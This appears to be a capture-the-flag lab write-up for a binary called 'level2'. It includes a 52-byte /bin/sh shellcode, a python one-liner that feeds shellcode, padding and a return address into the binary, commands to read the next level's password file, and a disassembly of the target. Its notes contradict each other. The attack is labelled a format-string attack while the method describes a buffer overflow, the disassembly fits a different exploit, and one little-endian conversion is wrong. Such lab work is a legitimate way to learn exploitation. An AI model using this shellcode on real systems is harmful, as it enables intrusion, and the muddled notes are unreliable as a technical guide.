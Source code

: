 - attack: format string exploitation
- binary behavior: reprints argument
- targeted functions: v and main
- vulnerability in v: printf()
- defense: fget

Method:
- find the overflow size
- find eip offest size
- find the return address used by strdup
- overwrite eip by the return address
- call shell using shellcode
- cat passwd when get console with root privedges

Shell code: 52 http://shell-storm.org/shellcode/files/shellcode-863.html
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"   
Info:
- 0x0804a008 - return address
- 0x08a00480 - same in little-endian
- same in hex - \x08\xa0\x04\x08
- eip register address after segfault - 0x37634136
- its offset - 80 (from wiremask.eu)
- offset code structure: 80 = 4 (return address) + 52 (shell code) + 28


Code:
objdump -d ./level2
ltrace ./level2

gdb level2
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4
Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  + "a" * 28 + "\x08\xa0\x04\x08"';cat) | ./level2
whoami
cd ..; cat level3/.pass


Functions

0804851a <main>:
 804851a:       55                      push   %ebp
 804851b:       89 e5                   mov    %esp,%ebp
 804851d:       83 e4 f0                and    $0xfffffff0,%esp
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret



080484a4 <v>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       81 ec 18 02 00 00       sub    $0x218,%esp
 80484ad:       a1 60 98 04 08          mov    0x8049860,%eax
 80484b2:       89 44 24 08             mov    %eax,0x8(%esp)
 80484b6:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484c4:       89 04 24                mov    %eax,(%esp)
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt> #defence
 80484cc:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484d2:       89 04 24                mov    %eax,(%esp)
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt> #exploit for attack
 80484da:       a1 8c 98 04 08          mov    0x804988c,%eax
 80484df:       83 f8 40                cmp    $0x40,%eax
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    0x8049880,%eax
 80484e9:       89 c2                   mov    %eax,%edx
 80484eb:       b8 00 86 04 08          mov    $0x8048600,%eax
 80484f0:       89 54 24 0c             mov    %edx,0xc(%esp)
 80484f4:       c7 44 24 08 0c 00 00    movl   $0xc,0x8(%esp)
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048503:       00
 8048504:       89 04 24                mov    %eax,(%esp)
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    movl   $0x804860d,(%esp)
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt> #exploit for shell
 8048518:       c9                      leave
 8048519:       c3                      ret

             